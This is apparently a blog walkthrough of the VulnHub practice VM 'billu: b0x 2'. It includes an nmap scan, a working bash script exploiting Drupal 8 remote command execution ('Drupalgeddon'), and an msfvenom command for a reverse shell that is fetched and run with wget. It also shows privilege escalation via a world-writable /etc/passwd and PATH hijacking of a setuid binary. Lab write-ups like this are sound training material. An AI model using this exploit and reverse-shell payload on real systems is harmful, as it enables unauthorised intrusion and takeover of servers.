 ```yaml
---
layout: post
title: "billu: b0x 2 Walkthrough"
subtitle: "Man, I Need a New Hobby"
date: 2018-09-22 18:25:01 +0000
category: Walkthrough
tags: [VulnHub, billu]
comments: true
image:
  feature: billu-b0x-2-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/soap-bubble-colorful-ball-824558/
---
```


This post documents the complete walkthrough of bill: b0x 2, a boot2root [VM][1] created by [Manish Kishan Tanwar][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

Try this if you want an OSCP refresher that's not too difficult.

### Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 e6:3e:0d:ca:5c:3e:57:f8:1d:e6:e6:c5:3b:b3:67:b5 (DSA)
|   2048 ee:ef:3e:03:3a:24:f8:9f:35:4f:3a:9a:6f:64:a5:f5 (RSA)
|   256 af:60:d8:cb:90:08:63:4b:d3:7b:04:d3:7c:db:cf:bf (ECDSA)
|_  256 c0:56:96:d2:62:52:ea:9f:7f:d8:2a:7a:6b:1b:bd:56 (ED25519)
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 8 (https://www.drupal.org)
| http-methods:
|_  Supported Methods: GET POST HEAD OPTIONS
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/
| /comment/reply/ /filter/tips/ /node/add/ /search/ /user/register/
| /user/password/ /user/login/ /user/logout/ /index.php/admin/
|_/index.php/comment/reply/
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Home | --==[[ Billu b0x 2 - with love from indishell Lab ]]==--
111/tcp   open  rpcbind syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          42940/udp  status
|_  100024  1          45103/tcp  status
8080/tcp  open  http    syn-ack ttl 64 Apache Tomcat/Coyote JSP engine 1.1
| http-methods:
|   Supported Methods: GET HEAD POST PUT DELETE OPTIONS
|_  Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat
45103/tcp open  status  syn-ack ttl 64 1 (RPC #100024)
```

`nmap` finds a couple of open ports. Nothing unusual. Let's take a look at the web-related ones. The metadata in the HTML source tells me I'm looking at a Drupal 8 installation.

![9cbbd925.png](/assets/images/posts/billu-b0x-2-walkthrough/9cbbd925.png)

### Drupalgeddon

Suffice to say, the first thought that comes to my mind is Drupalgeddon. Since this is Drupal 8, I'll give EDB-ID [44448](https://www.exploit-db.com/exploits/44448/) a shot. It's a proof-of-concept code written in Python that tests for remote command execution. It writes a file and then checks for the file's existence. In any case, it's easy to rewrite it in `bash`. i.e. wrap the script around `curl` and re-purpose it to take in an argument—any shell command.

<div class="filename"><span>exploit.sh</span></div>

```bash
#!/bin/bash

RHOST=192.168.30.129
URL="http://$RHOST/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax"
CMD=$1

STATUS=$(curl -s \
              -o /dev/null \
              -w %{http_code} \
              --data-urlencode "form_id=user_register_form" \
              --data-urlencode "_drupal_ajax=1" \
              --data-urlencode "mail[#post_render][]=exec" \
              --data-urlencode "mail[#type]=markup" \
              --data-urlencode "mail[#markup]=$CMD" \
              $URL)

if [ $STATUS -eq 200 ]; then
  echo "[+] Exploit Successful"
else
  echo "[!] Exploit Failed"
fi
```

Time to run my exploit script.

_On my exploit script terminal_

![1bc5fcfa.png](/assets/images/posts/billu-b0x-2-walkthrough/1bc5fcfa.png)

_On my `nc` listener_

![95bbd761.png](/assets/images/posts/billu-b0x-2-walkthrough/95bbd761.png)

You can see the remote command executed successfully.

Next, I'll make use of `wget` to transfer a reverse shell (generated by `msfvenom`), make it executable with `chmod`, and then execute it.

You can generate the reverse shell with `msfvenom` like so.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.30.128 LPORT=1234 -f elf -o rev
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: rev
```

_On my exploit script terminal_

![cd2272c1.png](/assets/images/posts/billu-b0x-2-walkthrough/cd2272c1.png)

_On my SimpleHTTPServer terminal_

![743c9c3d.png](/assets/images/posts/billu-b0x-2-walkthrough/743c9c3d.png)

_On my `nc` listener_

![0e917b2f.png](/assets/images/posts/billu-b0x-2-walkthrough/0e917b2f.png)

I got shell.

### Privilege Escalation

Long story short. Once you have a low-privilege shell, there are two ways to gain `root` privileges.

***Method 1: world-writable `/etc/passwd`***

How do you know `/etc/passwd` is world-writable? Simple.

![07134282.png](/assets/images/posts/billu-b0x-2-walkthrough/07134282.png)

So what if `/etc/passwd` is world-writable? What can you do with it? Enough to be dangerous.

![2a7227b9.png](/assets/images/posts/billu-b0x-2-walkthrough/2a7227b9.png)

`su` to `toor`. Password is `toor`.

![1a61b268.png](/assets/images/posts/billu-b0x-2-walkthrough/1a61b268.png)

***Method 2: `/opt/s` is `setuid` to `root`***

How do you know `/opt/s` is `setuid` to `root`? Simple.

![6ce80208.png](/assets/images/posts/billu-b0x-2-walkthrough/6ce80208.png)

Check out the strings in the executable. This is classic—hijacking the default executable search path.

![d7faf243.png](/assets/images/posts/billu-b0x-2-walkthrough/d7faf243.png)

`scp` is not specified in absolute path. We can easily trick the shell to search for a `PATH` we specified first. Heck, we don't even have to compile any code. Any shell script that start with `#!` will suffice, as long as it's called `scp`.

![5d60d36e.png](/assets/images/posts/billu-b0x-2-walkthrough/5d60d36e.png)

:dancer:

### Afterthought

A good way to kill time.

[1]: https://www.vulnhub.com/entry/billu-b0x-2,238/
[2]: https://twitter.com/@indishell1046
[3]: https://www.vulnhub.com/
